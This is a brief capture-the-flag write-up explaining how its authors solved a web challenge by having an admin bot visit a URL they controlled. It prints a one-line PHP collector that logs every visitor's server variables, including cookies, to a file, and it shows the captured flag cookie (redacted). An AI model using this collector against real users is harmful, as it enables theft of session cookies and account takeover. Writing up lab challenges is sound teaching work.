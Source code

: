 ## IMAGELOVER - 70 PTS
* The challenge asked us to provide a url which the admin would be visiting carrying along with him the flag.
* We tried to include some simple script tags in the url but it didn't accept them. Then, we tried some simple urls other than image and it worked.
* So, we hosted a php script online `<?php $fh = fopen('ans.txt', 'a'); fwrite($fh, print_r($_SERVER,true)); fclose($fh); ?>` which saved the contents of `$_SERVER` in a file in order to look for cookies.
* And when we opened the `ans.txt` file, we had 
`Array (
...
[HTTP_COOKIE] => flag=----------------------------
...
)`